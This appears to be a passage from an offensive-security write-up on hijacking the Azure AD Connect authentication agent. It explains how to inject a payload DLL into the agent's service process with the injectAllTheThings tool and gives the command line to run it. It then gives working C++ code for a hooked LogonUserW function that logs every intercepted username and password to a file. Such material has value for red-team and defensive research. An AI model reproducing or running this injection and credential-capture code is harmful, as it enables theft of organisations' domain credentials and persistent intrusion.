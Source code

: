 ```cpp
```

The `injectAllTheThings` project can be used to inject the payload `DLL` in the
process using a number of techniques. One technique consist of copying the
payload `DLL` path into the remote process, using `VirtualAllocEx` and a
subsequent `WriteProcessMemory` call, and then remotely starting a thread that
will load the payload `DLL`. A remote thread can be created using
`CreateRemoteThread` and instructed to execute (`Kernel32`'s) `LoadLibraryW`.

```
# Supported injection techniques: 1 CreateRemoteThread / 2 NtCreateThreadEx / 3 QueueUserAPC / 4 SetWindowsHookEx / 5 RtlCreateUserThread / 6 SetThreadContext / 7 Reflective DLL injection

injectAllTheThings.exe -t <1 | INJECTION_TECHNIQUE_NUMBER> "AzureADConnectAuthenticationAgentService.exe" <PAYLOAD_DLL_FULL_PATH>
```

###### Authentication requests interception

The following code can be inserted in the `LogonUserWHook` function
(`<INJECTED_CODE_INTERCEPTION>`) to log the authentication requests.

```cpp
std::ofstream outfile;
outfile.open("<FILE_PATH>", std::ios_base::app);
outfile << "Successfully hooked LogonUserW function!" << "\n\n";

if (ret == true) {
    outfile << "Successful authentication received:" << "\n";
}

else {
    outfile << "Unsuccessful authentication received:" << "\n";
}

// Write username.
int len_username = WideCharToMultiByte(CP_UTF8, 0, username, -1, NULL, 0, 0, 0);
LPSTR result_username = NULL;
if (len_username > 0) {
    result_username = new char[len_username + 1];
    if (result_username) {
        int resLen_username = WideCharToMultiByte(CP_UTF8, 0, username, -1, &result_username[0], len_username, 0, 0);
        if (resLen_username == len_username) {
            outfile.write(result_username, len_username);
            outfile << "\n";
        }
        delete[] result_username;
    }
}

// Write password
int len_password = WideCharToMultiByte(CP_UTF8, 0, password, -1, NULL, 0, 0, 0);
LPSTR result_password = NULL;
if (len_password > 0) {
    result_password = new char[len_password + 1];
    if (result_password) {
        int resLen_password = WideCharToMultiByte(CP_UTF8, 0, password, -1, &result_password[0], len_password, 0, 0);
        if (resLen_password == len_password) {
            outfile.write(result_password, len_password);
            outfile << "\n";
        }
        delete[] result_password;
    }
}
```